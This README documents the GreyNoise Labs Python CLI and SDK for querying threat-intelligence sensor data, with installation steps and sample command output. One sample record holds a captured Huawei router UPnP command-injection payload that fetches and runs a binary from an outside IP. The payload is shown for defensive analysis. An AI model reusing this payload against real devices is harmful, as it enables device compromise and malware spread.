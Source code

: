 ==========================================
Python GreyNoise Labs GraphQL Client & SDK
==========================================

.. image:: https://img.shields.io/badge/License-MIT-yellow.svg
    :target: https://opensource.org/licenses/MIT

This package provides a CLI and SDK to the `GreyNoise Labs API`_ service.

.. _GreyNoise Labs API: https://api.labs.greynoise.io/

The GreyNoise Labs API provides access to the GreyNoise sensor datasets,
including the raw sensor data, contextual metadata, and rapid prototyping utilities from the GreyNoise Labs team.

You can read more about the team and their work at `GreyNoise Labs`_

.. _GreyNoise Labs: https://www.labs.greynoise.io

Documentation
=============
Documentation is available here: `Documentation`_

.. _Documentation: https://api.labs.greynoise.io/1/docs

CLI Install
===========
1. Run ``python3 -m pip install greynoiselabs``
2. Run ``greynoiselabs init`` to authenticate with Auth0 and save credentials for future use.
3. (Optional) It is recommended to install `jq` to make the CLI output more readable. 
   You can install it with ``brew install jq`` on macOS or ``apt-get install jq`` on Ubuntu.

..  code-block:: bash

    You are not authenticated, would you like to do this now? [y/N]: y
    Device code successful
    1. Please browse to:  https://greynoise2.auth0.com/activate?user_code=ABCD-EFGH
    2. Verify the code matches:  ABCD-EFGH
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Token saved to /Users/user/Library/Application Support/greynoiselabs/0.1.19/token.json.
    Authentication successful
    Aborted.


CLI Quick Start
===============
- . To show usage just run ``greynoiselabs`` and you should see this output.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256922968-bbed72e3-c973-4398-86d8-c4383ffa0283.png

-  ``greynoiselabs knocks --help`` to show command specific help like below.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256923019-432213b0-6a10-4283-bc8e-2365368c977a.png

- Lets look at the Labs Command and Control server dataset.
  Run: ``greynoiselabs c2s | jq``
  
  Here we can see results that suggest this is a potential C2 because GreyNoise observed an HTTP 
  request that contained a nested wget command out to the 185[.]17[.]0[.]197 IP. 

..  code-block:: json

    {
      "source_ip": "210.103.85.34",
      "hits": 271,
      "pervasiveness": 11,
      "c2_ips": [
        "185.17.0.197"
      ],
      "c2_domains": [],
      "payload": "POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */*\r\nAuthorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"\r\n\r\n<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g 185.17.0.197 -l /tmp/testin -r /.oDan2/lock.mips; /bin/busybox chmod 777 /tmp/testin; /tmp/testin hw.selfrep)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n"
    }

- Lets take a look at the Labs scan-back dataset a.k.a. "knockknock".
  Run: ``greynoiselabs knocks | jq``
    
  Here we can see that GreyNoise scanned an IP back that was observed scanning GreyNoise sensors and contained the HTTP title NetSurveillance WEB, likely a know IP camera DVR 
  with CVE-2017-16725.

..  code-block:: json

    {
      "source_ip": "36.70.32.117",
      "headers": "{\"Content-Type\":[\"text/html\"],\"Expires\":[\"0\"],\"Server\":[\"uc-httpd 1.0.0\"]}",
      "apps": "[{\"app_name\":\"Apache HTTP Server\",\"version\":\"\"}]",
      "emails": [],
      "favicon_mmh3_128": "Sgqu+Vngs9hrQOzD8luitA==",
      "favicon_mmh3_32": -533084183,
      "ips": [
        "10.2.4.88",
        "10.2.2.88"
      ],
      "knock_port": 80,
      "jarm": "00000000000000000000000000000000000000000000000000000000000000",
      "last_seen": "2023-07-21T11:00:06Z",
      "last_crawled": "2023-07-22T00:14:27Z",
      "links": [],
      "title": "NETSurveillance WEB",
      "tor_exit": false
    }

- Lets take a look at IPs that are commonly searched in GreyNoise datasets.  
  Run: ``greynoiselabs popular-ips | jq``

  Here we can see that 143.244.50.173 has been searched 916 times by 95 different GreyNoise users and 
  was last seen on 2023-07-27T23:59:11Z by GreyNoise sensors and last requested on 2023-07-27T23:55:17Z.

..  code-block:: json

    {
      "ip": "143.244.50.173",
      "request_count": 916,
      "users_count": 95,
      "last_requested": "2023-07-27T23:55:17Z",
      "noise": true,
      "last_seen": "2023-07-27T23:59:11Z"
    }

- Lets take a look at IPs making the most noise.
  Run: ``greynoiselabs noise-rank | jq``

  Here we can see that 167.94.138.35 is very pervasive throughout countries and sensors, is generating a 
  significant amount of traffic, and is targeting a large number of ports. However, the number of distinct 
  payloads it is generating falls in the middle compared with our IPs observed by GreyNoise. 

..  code-block:: json

    {
      "ip": "167.94.138.35",
      "noise_score": 89,
      "country_pervasiveness": "very high",
      "payload_diversity": "med",
      "port_diversity": "very high",
      "request_rate": "high",
      "sensor_pervasiveness": "very high"
    }

- Lets use some simple human language to search GreyNoise datasets.
  Run: ``greynoiselabs gengnql "Show malicious results that are targeting ukraine from russia"``
  
  Here we can see that the CLI is able to parse the human language and generate a set of GNQL queries that you may not have thought of.
  
  Results will differ for `gengnql` on subsequent runs as this is using an GPT prompt.

..  code-block:: bash

    classification:malicious AND metadata.country:Russia AND destination_country:Ukraine
    metadata.country:Russia AND destination_country:Ukraine AND classification:malicious
    metadata.country_code:RU AND destination_country_code:UA AND classification:malicious
    classification:malicious AND metadata.country_code:RU AND destination_country_code:UA
    destination_country:Ukraine AND metadata.country:Russia AND classification:malicious

- Lets take a PCAP and pivot on it to see what interesting artifacts we can extract from it to search in 3rd party tools and datasets. 
  Run: ``greynoiselabs pcap pivot sample.pcap | jq``

  Here we can see that the CLI is able to parse the PCAP and extract the number of requests sent to a port, and the HTTP paths and User-Agents that were used.

.. code-block:: json 

   {
    "first_seen": "2023-08-29T19:14:06.88876Z",
    "ip": "84.54.51.99",
    "last_seen": "2023-08-29T19:14:07.034411Z",
    "user_agents": [],
    "port_counts": [
      {
        "count": 5,
        "port": "80/TCP"
      }
    ],
    "paths": [
      "/boaform/admin/formLogin"
    ],
    "ja3": [],
    "hassh": [],
    "hostnames": []
  }

- Lets take a PCAP and convert it to a series of GNQL queries that can be used to search GreyNoise datasets.
  Run: ``greynoiselabs pcap gnql sample.pcap | jq``

  Here you can see that we were able to extract 11 SSH Hassh fingerprints, 1 HTTPS JA3 fingerprint, and 15 different RNDS hostnames that were then converted into GNQL queries. 

.. code-block:: json
 
  {
    "type": "raw_data.hassh.fingerprint",
    "urls": [
      "https://viz.greynoise.io/query?gnql=raw_data.hassh.fingerprint:4e066189c3bbeec38c99b1855113733a%20OR%20raw_data.hassh.fingerprint:98f63c4d9c87edbd97ed4747fa031019%20OR%20raw_data.hassh.fingerprint:92674389fa1e47a27ddd8d9b63ecd42b%20OR%20raw_data.hassh.fingerprint:2aec6b44b06bec95d73f66b5d30cb69a%20OR%20raw_data.hassh.fingerprint:acaa53e0a7d7ac7d1255103f37901306%20OR%20raw_data.hassh.fingerprint:9d31b8e6c87f893d077ca6526f7c710b%20OR%20raw_data.hassh.fingerprint:873a5fb5fedc2d4f8638ebde4abc6cfc%20OR%20raw_data.hassh.fingerprint:7216c7c473918b4f83d1139b3c70dbf9%20OR%20raw_data.hassh.fingerprint:1df281da760a0c16d115179a9ea5957c%20OR%20raw_data.hassh.fingerprint:dd9bcf093c355da7000132131cb36fd0%20OR%20raw_data.hassh.fingerprint:ec7378c1a92f5a8dde7e8b7a1ddf33d1&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }
  {
    "type": "raw_data.ja3.fingerprint",
    "urls": [
      "https://viz.greynoise.io/query?gnql=raw_data.ja3.fingerprint:674a73e1c587a5355cb37e25e6bebe48&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }
  {
    "type": "metadata.rdns",
    "urls": [
      "https://viz.greynoise.io/query?gnql=metadata.rdns:ip.parrotdns.com%20OR%20metadata.rdns:com%20OR%20metadata.rdns:03914d09.asertdnsresearch.com%20OR%20metadata.rdns:59854089.round2023-08-30.odns.m.dnsscan.top%20OR%20metadata.rdns:VERSION.BIND%20OR%20metadata.rdns:03914d09.example.com%20OR%20metadata.rdns:tstng.net%20OR%20metadata.rdns:www.stage%20OR%20metadata.rdns:mz.gov.pl%20OR%20metadata.rdns:version.bind%20OR%20metadata.rdns:www.cybergreen.net%20OR%20metadata.rdns:www.google.com%20OR%20metadata.rdns:example.com%20OR%20metadata.rdns:dnsscan.shadowserver.org%20OR%20metadata.rdns:sl&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }

CLI Advanced Usage
==================
Show the most popular IPs that are searched at GreyNoise but not observed by our sensors
1. ``greynoiselabs popular-ips | jq '. | select(.noise == false)' | less``

Group the ip's hitting GreyNoise sensors by their HTTP page title
2. ``greynoiselabs knocks | jq -s 'group_by(.title) | map({title: .[0].title, agg: map(.source_ip) })'``

SDK Quick Start
===============
**Install the library**:

``python3 -m pip install greynoiselabs`` or ``make install`` when in the root directory of the repository.

Example SDK Code

You can authenticate to the Labs API and obtain a copy of your token there 
or with the CLI after running ``greynoiselabs init``

..  code-block:: python

    import os
    import asyncio
    from greynoiselabs.client import Client

    client = Client("https://api.labs.greynoise.io/1/query",
                    {"Authorization": f"Bearer {os.environ['AUTH_TOKEN']}"})

    response = asyncio.run(client.top_knocks(ip="221.144.229.187"))
    print(response)
